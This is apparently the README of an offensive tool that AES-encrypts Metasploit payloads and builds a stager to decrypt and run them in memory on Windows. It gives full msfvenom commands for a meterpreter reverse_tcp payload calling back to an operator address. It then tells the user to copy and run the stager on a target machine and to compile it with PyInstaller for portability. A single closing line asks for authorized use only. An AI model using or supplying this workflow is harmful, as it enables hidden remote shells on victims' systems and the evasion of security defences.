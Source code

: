 

---

# AES-256 Payload Obfuscation Tool

This tool is designed to obfuscate Metasploit payloads using AES-256 encryption. It includes a Python script to encrypt the payload and a stager script to decrypt and execute the payload in memory.

## Features
- Encrypts raw payloads using AES-256-CBC.
- Generates a stager script to decrypt and execute the payload in memory.
- Supports custom encryption keys.
- Works with Windows payloads (x86/x64).

## Prerequisites
- Python 3.x
- `pycryptodome` library (for AES encryption/decryption)
- Metasploit Framework (for generating payloads)

## Installation
1. Clone the repository:
   ```bash
   git clone https://github.com/yourusername/aes-payload-obfuscation.git
   cd aes-payload-obfuscation
   ```

2. Install the required Python library:
   ```bash
   pip install pycryptodome
   ```

## Usage

### Step 1: Generate a Payload with Metasploit
Use `msfvenom` to generate a raw payload. For example:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f raw -o payload.bin
```

### Step 2: Encrypt the Payload
Use the `encrypt_payload.py` script to encrypt the payload:
```bash
python encrypt_payload.py -i payload.bin -o encrypted.bin
```
- `-i`: Input payload file (e.g., `payload.bin`).
- `-o`: Output encrypted file (e.g., `encrypted.bin`).
- `-k`: (Optional) Specify a 32-byte encryption key in hex format. If not provided, a random key will be generated.

Example with a custom key:
```bash
python encrypt_payload.py -i payload.bin -o encrypted.bin -k 0123456789abcdef0123456789abcdef0123456789abcdef0123456789abcdef
```

### Step 3: Use the Stager
The `encrypt_payload.py` script generates a `stager.py` file. This script decrypts and executes the payload in memory.

1. Transfer the following files to the target machine:
   - `encrypted.bin` (encrypted payload)
   - `stager.py` (loader script)

2. Run the stager on the target machine:
   ```bash
   python stager.py
   ```

### Optional: Compile the Stager
To make the stager more portable, you can compile it into an executable using `PyInstaller`:
```bash
pip install pyinstaller
pyinstaller --onefile stager.py
```
The compiled executable will be located in the `dist` folder.

## Example Workflow
1. Generate a payload:
   ```bash
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o payload.bin
   ```

2. Encrypt the payload:
   ```bash
   python encrypt_payload.py -i payload.bin -o encrypted.bin
   ```

3. Transfer `encrypted.bin` and `stager.py` to the target machine.

4. Execute the stager:
   ```bash
   python stager.py
   ```

## Notes
- The stager uses Windows API calls and is only compatible with Windows systems.
- Ensure the payload architecture (x86/x64) matches the target system.
- Use this tool only in authorized environments for legitimate purposes.


